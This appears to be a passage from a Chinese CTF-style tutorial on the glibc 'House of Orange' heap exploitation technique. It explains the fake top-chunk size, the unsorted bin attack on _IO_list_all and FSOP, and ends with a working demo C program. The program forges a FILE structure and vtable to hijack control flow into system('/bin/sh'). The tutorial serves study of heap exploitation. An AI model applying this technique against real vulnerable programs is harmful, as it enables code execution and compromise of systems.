     fake_size 可以是 0x0fe1、0x1fe1、0x2fe1、0x3fe1 等对 4kb 对齐的 size，这里选择了0x1fe1。
    
    执行malloc(0x2000)之后的结果，成功使原先top chunk放入了unsorted bin

![](/picture/heap_related/House of Orange/1.png)


再次执行malloc(0x60)会从unsorted bin中切出。

![](/picture/heap_related/House of Orange/2.png)


并且此时堆地址和libc地址信息都被泄露了，看到有些博客说必须申请large bin大小的chunk才会出现堆泄露，但这里我声请一个小的chunk也可以实现泄露，暂时存疑。

![](/picture/heap_related/House of Orange/3.png)




**2，Unsorted Bin Attack**

Unsorted Bin Attack的原理不再赘述，其结果是修改任意地址变成一个大数字（这里这个数字就是unsorted bin的地址）。这里这个被修改的是_IO_list_all指针，这里使他指向unsorted bin。

**3，FSOP**

这里\_IO\_list\_all指向unsorted bin的地址。



演示代码

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
int winner ( char *ptr);
int main()
{
    char *p1, *p2;
    size_t io_list_all, *top;
    p1 = malloc(0x400-16);
    top = (size_t *) ( (char *) p1 + 0x400 - 16);
    top[1] = 0xc01;
    p2 = malloc(0x1000);
    io_list_all = top[2] + 0x9a8;  //get real addr of io_list_all
    top[3] = io_list_all - 0x10;  //unsorted bin->bk = io_list_all - 0x10
    memcpy( ( char *) top, "/bin/sh\x00", 8); //fake_file->_flags
    top[1] = 0x61;  //fake_size
    FILE *fp = (FILE *) top;  
    fp->_mode = 0; // top+0xc0
    fp->_IO_write_base = (char *) 2; // top+0x20
    fp->_IO_write_ptr = (char *) 3; // top+0x28
    size_t *jump_table = &top[12]; // controlled memory
    jump_table[3] = (size_t) &winner;
    *(size_t *) ((size_t) fp + sizeof(FILE)) = (size_t) jump_table; // top+0xd8
    malloc(10);
    return 0;
}

int winner(char *ptr)
{ 
    system(ptr);
    return 0;
}
```
